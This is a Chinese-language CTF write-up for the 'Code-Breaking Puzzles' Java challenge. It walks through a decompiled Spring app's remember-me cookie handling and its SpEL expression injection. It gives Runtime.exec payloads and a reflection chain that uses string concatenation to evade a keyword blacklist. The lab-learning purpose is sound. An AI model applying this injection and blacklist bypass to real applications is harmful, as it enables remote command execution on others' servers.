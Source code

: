 ```yaml
---
sidebar_position: 1
tags: [Medium, JavaSec, SPEL]
title: Code-Breaking Puzzles
description: P神的活动
---
```

# Code-Breaking Puzzles
> 关于资料可以前往 [共享资料/Resources/challenge-0.0.1-SNAPSHOT-20240405211127-6zp33b3.jar](https://pan.baidu.com/s/1PNvMPQsc-F70Lyk7ZNsRrA?pwd=f228)

![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240405212214.png)

使用 IDEA 进行反编译, 随后启动对应的程序进行 DeBug
## 分析
首先查看 `application.yml` 文件,可以看到, 提供一个账号以及一个黑名单
```yaml
spring:
  thymeleaf:
    encoding: UTF-8
    cache: false
    mode: HTML
keywords:
  blacklist:
    - java.+lang
    - Runtime
    - exec.*\(
user:
  username: admin
  password: admin
  rememberMeKey: c0dehack1nghere1
```
代码中的主要逻辑在 `MainController` 中, 首先查看登陆操作, 在用户登陆之后, 如果勾选了 remberMe, 那么浏览器就会存入加密后的 Cookie, 最后跳转到 `hello.html`
```java
@PostMapping({"/login"})
public String login(@RequestParam(value = "username",required = true) String username, @RequestParam(value = "password",required = true) String password, @RequestParam(value = "remember-me",required = false) String isRemember, HttpSession session, HttpServletResponse response) {
    if (this.userConfig.getUsername().contentEquals(username) && this.userConfig.getPassword().contentEquals(password)) {
        session.setAttribute("username", username);
        if (isRemember != null && !isRemember.equals("")) {
            Cookie c = new Cookie("remember-me", this.userConfig.encryptRememberMe());
            c.setMaxAge(2592000);
            response.addCookie(c);
        }

        return "redirect:/";
    } else {
        return "redirect:/login-error";
    }
}
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240405213306.png)
随后在 `admin` 请求中会对 Cookie 进行处理
```java
@GetMapping
public String admin(@CookieValue(value = "remember-me",required = false) String rememberMeValue, HttpSession session, Model model) {
    if (rememberMeValue != null && !rememberMeValue.equals("")) {
        String username = this.userConfig.decryptRememberMe(rememberMeValue);
        if (username != null) {
            session.setAttribute("username", username);
        }
    }

    Object username = session.getAttribute("username");
    if (username != null && !username.toString().equals("")) {
        model.addAttribute("name", this.getAdvanceValue(username.toString()));
        return "hello";
    } else {
        return "redirect:/login";
    }
}
```
在上面的处理中, 当判断 `rememberMeValue` 存在后, 就会对其进行解密, 随后将其进行相关赋值, 随后又会调用 `this.getAdcanceValue()`
```java
private String getAdvanceValue(String val) {
    String[] var2 = this.keyworkProperties.getBlacklist();
    int var3 = var2.length;

    for(int var4 = 0; var4 < var3; ++var4) {
        String keyword = var2[var4];
        Matcher matcher = Pattern.compile(keyword, 34).matcher(val);
        if (matcher.find()) {
            throw new HttpClientErrorException(HttpStatus.FORBIDDEN);
        }
    }

    ParserContext parserContext = new TemplateParserContext();
    Expression exp = this.parser.parseExpression(val, parserContext);
    SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
    return exp.getValue(evaluationContext).toString();
}
```
在这一步中可以看到主要是和黑名单做正则匹配, 如果匹配成功就会抛出 `HttpStatus.FORBIDEN` , 如果没有就进行正常流程, 在 `SmallEvaluationContext` 进行 SPEL 表达式解析, 这里就会存在 EI 表达式注入的问题, 因此我们可以构造
```java
Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator"
```
执行命令, 但是使用黑名单机制, 因此需要使用反射来构造调用链, 这样就可以在关键字处使用字符串拼接来达到绕过黑名单的效果
```java
public class RTTI {
    public static void main(String[] args) {
        try {
            Method method = String.class.getClass().forName("java.lang.Runtime").getMethod("exec", String.class);
            Method method1 = String.class.getClass().forName("java.lang.Runtime").getMethod("getRuntime");
            Class<?> aClass = String.class.getClass().forName("java.lang.Runtime");
            System.out.println(method.invoke(method1.invoke(aClass), "whoami"));
        } catch (Exception e) {
            System.out.println("报错");
        }
    }
}

// 进行混淆, 绕过黑名单
String.class.getClass().forName("java.l" + "ang.R" + "untime").getMethod("ex" + "ec", String.class).invoke(String.class.getClass().forName("java.l" + "ang.R" + "untime").getMethod("getRuntime").invoke(String.class.getClass().forName("java.l" + "ang.R" + "untime")), "whoami")
```
随后将其构造为 SPEI 的解析格式, 主要就是改一个 `T()` ,

## 参考文章
- [Code-Breaking Puzzles — javacon WriteUp](http://rui0.cn/archives/1015)